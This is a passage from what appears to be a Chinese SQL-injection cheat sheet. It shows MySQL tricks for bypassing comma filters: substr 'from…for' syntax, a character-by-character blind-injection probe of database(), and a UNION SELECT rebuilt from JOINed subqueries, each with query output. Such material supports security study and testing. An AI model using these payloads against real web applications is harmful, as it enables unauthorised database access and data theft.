 - 如果过滤了逗号，可以这样使用`from pos for len`来取代

```sql
mysql> select substr("string" from 1 for 3);
+-------------------------------+
| substr("string" from 1 for 3) |
+-------------------------------+
| str                           |
+-------------------------------+
1 row in set (0.00 sec)
```

在sql盲注中，如果过滤逗号，以下参考下面的写法绕过

```
mysql> select ascii(substr(database() from 1 for 1)) > 120;
+----------------------------------------------+
| ascii(substr(database() from 1 for 1)) > 120 |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (0.00 sec)

mysql> select ascii(substr(database() from 1 for 1)) > 110;
+----------------------------------------------+
| ascii(substr(database() from 1 for 1)) > 110 |
+----------------------------------------------+
|                                            1 |
+----------------------------------------------+
```

- 也可使用`join`关键字来绕过

```sql
mysql> select * from users  union select * from (select 1)a join (select 2)b join(select 3)c;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  2 | user2    | pass1    |
|  3 | test3    | pass1    |
|  1 | 2        | 3        |
+----+----------+----------+
```

其中的

```sql
union select * from (select 1)a join (select 2)b join(select 3)c
```

等价于

```sql
union select 1,2,3
```

- 使用`like`关键字
  适用于`substr()`等提取子串的函数中的逗号
